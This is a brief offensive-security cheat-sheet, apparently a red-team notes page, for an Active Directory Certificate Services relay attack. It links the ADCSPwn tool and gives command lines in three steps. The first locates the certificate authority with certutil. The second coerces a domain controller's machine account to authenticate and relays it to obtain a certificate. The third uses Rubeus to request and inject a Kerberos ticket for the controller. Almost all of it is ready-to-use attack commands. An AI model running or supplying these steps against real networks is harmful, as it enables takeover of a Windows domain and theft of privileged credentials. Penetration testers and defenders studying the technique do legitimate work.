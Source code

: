 ### Source
https://github.com/bats3c/ADCSPwn  

### Find certificate autthority
```
certutil.exe
```

### Coerce authentication from machine account and relay to certificate service, write certificate to file
```
adcspwn.exe --adcs <certificateAuthority> --remote <domainController> --output <base64Certificate>
```

### Request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

